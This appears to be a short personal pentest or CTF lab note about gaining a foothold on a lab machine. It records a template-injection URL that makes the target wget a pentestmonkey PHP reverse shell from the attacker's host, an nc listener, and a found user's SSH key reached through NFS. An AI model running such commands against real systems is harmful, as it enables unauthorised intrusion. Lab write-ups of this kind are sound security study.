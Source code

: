 - Initial foothold was found with `code / template injection` on dev page.
  [[HTTP - 8080]]
- Let's get a shell:
- `http://192.168.157.131:8080/dev/pages/hello241.php?0=wget%20192.168.1.10:8000/shell.php` => pentest monkey shell
- `nc -lnvp 9001`
- ![[Pasted image 20250325142728.png]]
- Another user `jeanpaul` found
- ![[Pasted image 20250325142811.png]]
- This is the same user `jp` that left us note and `id_rsa` for its ssh in [[NFS - 111, 2049]]